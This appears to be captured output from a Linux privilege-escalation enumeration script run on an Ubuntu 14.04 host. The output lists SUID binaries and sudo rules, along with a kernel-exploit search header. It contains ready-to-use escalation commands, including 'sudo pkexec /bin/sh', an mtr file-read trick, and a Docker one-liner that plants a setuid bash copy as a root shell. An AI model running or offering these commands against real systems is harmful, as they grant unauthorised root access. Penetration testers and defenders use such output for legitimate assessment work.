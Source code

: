 ```
	- LFILE=file_to_read
	- sudo mtr --raw -F "$LFILE"
/usr/bin/pkexec 
[+] gtfobins found:
	- sudo pkexec /bin/sh
/usr/bin/chfn 
/usr/bin/passwd 
/usr/bin/sudo 
/usr/bin/newgrp 
/usr/bin/gpasswd 
/usr/bin/chsh 
/usr/bin/traceroute6.iputils 
/usr/sbin/uuidd 
/usr/sbin/pppd 
/usr/lib/eject/dmcrypt-get-device 
/usr/lib/openssh/ssh-keysign 
/usr/lib/dbus-1.0/dbus-daemon-launch-helper 
[+] exec calls found:
	- /tmp [writable]
/usr/lib/policykit-1/polkit-agent-helper-1 
/usr/lib/pt_chown 
/sbin/mount.nfs 


################ Sudo rules ################

### Rules for vagrant ###

ALL: all permissions
rule: all
ALL: all permissions
rule: all


################ Docker ################

/etc/init.d/docker found
->docker run -v /home/${USER}:/h_docs                     ubuntu bash -c 'cp /bin/bash /h_docs/rootshell && chmod 4777 /h_docs/rootshell;' && ~/rootshell -p

################ Mounted docker socket ################

Writable: False
Sock: /run/docker.sock

Writable: False
Sock: /var/run/docker.sock



################ Exploits ################


Available information:

Kernel version: 3.13.0
Architecture: x86_64
Distribution: ubuntu
Distribution version: 14.04
Additional checks (CONFIG_*, sysctl entries, custom Bash commands): performed
Package listing: from current OS

Searching among:
```